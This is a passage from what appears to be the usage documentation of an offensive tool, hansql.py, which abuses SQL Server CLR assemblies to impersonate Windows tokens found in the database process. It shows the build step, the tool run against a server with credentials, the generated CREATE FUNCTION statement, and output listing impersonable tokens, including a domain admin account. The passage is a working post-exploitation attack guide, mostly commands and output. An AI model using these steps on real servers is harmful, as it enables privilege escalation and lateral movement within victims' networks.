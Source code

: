 This output is explained as follows:
* There are two available tokens to impersonate.
* The token corresponding to the account ```nt service\mssqlserver``` has the id 212 while the token that belongs to the account ```macfi\iabad.adm``` has de id 1056. This id will be used during impersonation to select the right token.
* A ```*``` symbol means that the token can be used to access network resources  on behalf of the impersonated account.
* A ```(+)``` string means that the token has high integrity.

### Impersonate and run assembly

This option allows you to load and execute any assembly impersonating the security context of one of the tokens available in the process' memory. The provided assembly must comply with the following requirements:

* It must have a ```public static``` class called ```program```. Inside that class, at least two functions must be available: ```Do``` and ```run```.
* The ```Do``` function is a dummy function that performs no action. It is required in order to properly load the assembly on the database.
* The ```run``` function contains the main logic that will be called after impersonating the selected user token.
* The provided powershell script compiles `managed/testdll.cs` which can be used as a template. The resulting DLL will be located in `managed/rnumbers.dll`.

First we compile the assemblies.

```
$ .\build.ps1 -option managed
[+] Compiling impersonating assembly and managed DLL assembly...
Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

Then we can use the python script.

```
$ python3 hansql.py x:y@z.z.z.z -dll managed/r1191197344.dll

<SNIP>

[SQL] > CREATE FUNCTION [dbo].qdvtTjNG(@h NVARCHAR(MAX), @n NVARCHAR(MAX)) RETURNS NVARCHAR(MAX) AS EXTERNAL NAME KvDSrslY.program.run
[SQL] > SELECT dbo.qdvtTjNG('w','')
----------------------   
NT Service\MSSQLSERVER   

[SQL] > SELECT dbo.qdvtTjNG('l','')
-----------------------------------------------------------------------------------------------------------------------------------------------------------------   
nt service\mssqlserver* (+) -> 212 || macfi\iabad.adm* -> 1056  

[-->] Supply valid token id to impersonate or supply any other thing to exit: 1056
```